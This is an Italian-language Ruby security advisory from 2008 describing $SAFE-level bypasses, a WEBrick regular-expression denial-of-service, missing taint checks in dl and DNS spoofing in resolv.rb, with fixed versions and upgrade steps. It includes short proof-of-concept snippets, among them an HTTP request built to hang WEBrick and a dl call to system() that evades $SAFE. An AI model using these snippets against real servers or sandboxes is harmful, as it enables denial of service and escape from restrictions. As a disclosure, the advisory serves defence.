 ```yaml
---
layout: news_post
title: "Multiple vulnerabilità in Ruby"
author: "Fabio Cevasco"
lang: it
---
```


 Multiple vulnerabilità sono state scoperte in Ruby. Si raccomanda di eseguire un aggiornamento alle ultime versioni. ## Dettagli

Le seguenti vulnerabilità sono state scoperte.

### Molteplici vulnerabilità nel safe level

Molteplici vulnerabilità nel \_safe level\_ sono state scoperte:

* untrace\_var è permesso in safe level 4.

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME può essere moficato in safe level 4.

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* Metodi non sicuri possono essere chiamati in safe level 1-3.

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # ritorna la dimensione sbagliata
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # o 2, o 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # Stampa una stringa la cui lunghezza è inferiore a 20
      end

* Syslog operations are permitted at safe level 4.

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

Queste vulnerabilità sono state notificate da Keita Yamaguchi.

### Vulnerabilità DoS in WEBrick

WEBrick::HTTP::DefaultFileHandler è soggetto a richieste che occupano
tempi esponenziali dovute a un\'espressione regolare retroattiva in
WEBrick::HTTPUtils.split\_header\_value.

Server vulnerabile:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

&amp;Egrave; possibile che questa richiesta abbia bisogno di un tempo
infinito.

Questa vulnerabilità è stata notificata da Christian Neukirchen.

### Mancanza di controlli di \_taintness\_ in dl
{: #label-3}

dl non controlla la \_taintness\_, e questo potrebbe permettere la
chiamata di funzioni pericolose.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

Questa vulnerabilità è stata notificata da sheepman.

### Vulnerabilità di spoofing del DNS spoofing in resolv.rb

resolv.rb permette ad utenti remoti di mascherare le risposte del DNS.
Questo rischio può essere ridotto randomizzando le ID di transazione e
le porte sorgenti, così resolv.rb è stato corretto per fare proprio
questo.

* vedi anche: [CVE-2008-1447][1]

Questa vulnerabilità è stata notificata da Tanaka Akira.

## Versioni di Ruby vulnerabili

serie 1.8
: * 1\.8.5 e precedenti
  * 1\.8.6-p286 e precedenti
  * 1\.8.7-p71 e precedenti

serie 1.9
: * r18423 e precedenti

## Soluzione

serie 1.8
: Eseguire l\'agggiornamento a 1.8.6-p287 o 1.8.7-p72.
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

serie 1.9

: Eseguire un checkout dell\'ultima versione tramite Subversion.

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Nota che un pacchetto che corregge questa vulnerabilità potrebbe essere
già disponibile attraverso il tuo software di package management.

## Crediti

Un sincero ringraziamento a Keita Yamaguchi, Christian Neukirchen,
sheepman, e Tanaka Akira per aver notificato questi problemi al Ruby
Security Team.

## Cambiamenti

* 2008-08-08 12:21 +09:00 Corretto il numero di revisione di Ruby 1.9.
* 2008-08-11 11:23 +09:00 Corretto il patchlevel di Ruby 1.8. vedi
  [L\'annuncio del rilascio di Ruby 1.8.7-p72 and 1.8.6-p287][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz
[4]: {{ site.url }}/it/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/

